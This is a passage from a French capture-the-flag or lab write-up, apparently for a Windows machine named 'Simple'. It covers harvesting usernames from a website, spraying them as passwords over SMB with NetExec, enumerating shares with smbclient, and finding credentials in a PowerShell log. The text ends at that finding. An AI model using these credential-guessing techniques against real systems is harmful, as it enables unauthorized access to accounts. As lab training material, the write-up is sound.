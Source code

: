 Sur le site web sur le port 80 on trouve une liste de pseudonymes correspondant à l'équipe de travail : `ruy`, `bogo`, etc.

Je note ces noms et je les mets dans un fichier.

Après avoir longuement énuméré la partie web sans trouver de fichiers ou dossiers utiles, je me porte vers le SMB.

J'ai utilisé NetExec pour essayer de casser les comptes. Après avoir utilisé une wordlist des 10000 passwords les plus communs, j'ai essayé les noms d'utilisateurs comme mot de passe avec la commande suivante :

```bash
nxc smb 192.168.56.114 -u users.txt -p users.txt
```

Parmi la liste un utilisateur avait un mort de passe faible. Toutefois son mot de passe est arrivé à expiration :

```console
$ nxc smb 192.168.56.114 -u bogo -p bogo
SMB         192.168.56.114  445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:False) 
SMB         192.168.56.114  445    SIMPLE           [-] Simple\bogo:bogo STATUS_PASSWORD_EXPIRED 
```

J'ai essayé pas mal de choses en vain avec ce compte expiré. Il s'est avéré que la seule chose à faire s'était se connecter via l'interface semi-graphique de Windows Server et de faire le changement de mot de passe.

On avait alors la liste des partages :

```console
smbclient -U bogo -L //192.168.56.114
Password for [WORKGROUP\bogo]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Admin remota
        C$              Disk      Recurso predeterminado
        IPC$            IPC       IPC remota
        LOGS            Disk      
        WEB             Disk      
SMB1 disabled -- no workgroup available
```

Le partage LOGS est le seul accessible :

```console
smb: \> ls
  .                                   D        0  Sun Oct  8 23:23:36 2023
  ..                                  D        0  Sun Oct  8 23:23:36 2023
  20231008.log                        A     2200  Sun Oct  8 23:23:36 2023

                12966143 blocks of size 4096. 11102098 blocks available
```

Il s'agit d'un log Powershell et dedans on trouve des identifiants :

